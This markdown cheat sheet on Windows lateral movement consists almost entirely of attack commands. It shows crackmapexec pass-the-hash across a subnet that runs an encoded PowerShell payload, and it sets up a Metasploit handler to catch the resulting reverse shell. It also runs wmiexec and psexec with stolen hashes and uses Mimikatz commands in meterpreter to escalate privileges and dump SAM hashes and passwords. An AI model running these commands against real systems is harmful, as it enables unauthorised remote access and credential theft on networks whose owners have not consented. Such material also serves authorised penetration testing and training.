 
# Lateral Movement


### PTH from linux

After getting the hash from ntlmrelayx script, use
note: the hash is the second part of the result hash.

```
crackmapexec smb 192.168.68.0/24 -u username -H Hash -x "Exploit"
//Exploit is Powershell Encoder tool exploit, put ur IP&Port listener
//in kali, open terminal metasploit
msfconsole
use exploit/multi/handler
set lhost
set lport
// to listen for a shell
```

Another way using wmiexec.py

```
python3 wmiexec.py -hashes hash domain/Administrator@MACHINE-IP -codec cp949
```
or
```
python3 psexec.py -hashes hash domain/Administrator@MACHINE-IP cmd.exe
chcp 65001
```


### Mimikatz from meterpreter

After opening meterpreter session

```
getuid
getsystem
getuid
sysinfo
###################
load mimikatz
help mimikatz
mimikatz_command -f version
mimikatz_command -f fu::
mimikatz_command -f divers::
msv
kerberos
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::searchPasswords
mimikatz_command -f handle::
mimikatz_command -f handle::list
mimikatz_command -f service::
mimikatz_command -f service::list
mimikatz_command -f crypto::
mimikatz_command -f crypto::listProviders

// https://www.offsec.com/metasploit-unleashed/mimikatz/
```
